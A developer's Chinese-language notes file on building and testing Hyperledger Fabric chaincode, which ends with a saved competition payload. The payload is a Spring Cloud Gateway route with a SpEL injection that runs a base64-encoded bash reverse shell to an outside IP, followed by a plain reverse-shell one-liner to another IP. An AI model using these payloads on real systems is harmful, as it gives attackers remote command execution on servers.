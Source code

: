 # nonsense in project root ~
这里主要是记录一些开发时的中间过程（倒着更新）

## useless repos & links
* [fabric-sdk-go仓库](https://github.com/hyperledger/fabric-sdk-go)是用的传统sdk，对gateway方式来说参考意义不大。
* Fabric[中文文档](https://hyperledger.github.io/)（欸好像不是这个网址），github.io的，不过看着好像没什么用
__done:__
* [x] 每个项目下面都放一个nonsense.md，专门记录废话，README只放关键信息
* [x] 整理项目的markdown，FabApp和chaincode交互时写的markdown乱七八糟
* [x] 去command reference看看peer chaincode invoke和peer chaincode query
* [x] 启动test_network也写成脚本，完善readme的test_network部分
* [x] 先拿atcc的chaincode部署在测试网络上
* [x] 自己写chaincode(atcc)测试，数据用my favorite songs
* [x] 重装fabric-samples
* [x] 重装服务器并恢复开发环境

## misc
让Claude来写这个RSA真是写不清楚啊，无语，不如我上网copy。md，mv指令直接把原来的README给覆盖了，还好GitHub上有备份

根据这个文档[devMod](https://hyperledger-fabric.readthedocs.io/en/release-2.5/peer-chaincode-devmode.html)，按照步骤写了4个shell，放在devModOn目录下，并且把示例代码替换成了自己的chaincode，能开起来，但是init失败，可能是语法问题。在[这里](https://hyperledger-fabric.readthedocs.io/en/release-2.5/commands/peerchaincode.html)这里的一个角落找到了contract-api版本的peer chaincode -c格式，不过好像暂时没啥用？不对啊替换成自己的chaincode了凭什么用原来的peer chaincode invoke能正常工作啊。可能是因为之前go build出来的simpleChaincode没删，后来换成我的之后go build出问题了，没能成功build覆盖原来的。【图片】（哈哈哈哈这里没有图，反正就是InitLedger后QueryRecord成功，阿里云盘有一份备份，时间是2023.5.19）成功了呗！接下来：修改了3.sh，每次都进入我的chaincode目录下go build，之后mv到fabric目录下。可以把1.sh中rm simpleChaincode写到3.sh中，再添加一个功能，用于指定我自己写的chaincode的目录，最后全部推送至Github！

Fabric不同版本的问题：1.4链码安装在peer上，2.0链码容器独立运行。在release-2.5的官方文档写的是：Developers can use the network to test their smart contracts and applications.

官方文档一定要看2.5版本的，版本不一样冲突的太多了




国赛某道题的payload...
{
    "spring": {
        "cloud": {
            "gateway": {
                "routes": [
                    {
                        "id": "exam",
                        "order": 0,
                        "uri": "lb://backendservice",
                        "predicates": [
                            "Path=/echo/**"
                        ],
                        "filters": [
                            {
                                "name": "AddResponseHeader",
                                "args": {
                                    "name": "result",
                                    "value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(\"bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzgxLjY4LjEzMC4yMDkvOTA5OSAwPiYx}|{base64,-d}|{bash,-i}\").getInputStream())).replaceAll('\n','').replaceAll('\r','')}"
                                }
                            }
                        ]
                    }
                ]
            }
        }
    }
}

bash -i >&/dev/tcp/81.68.167.39/5000 0>&1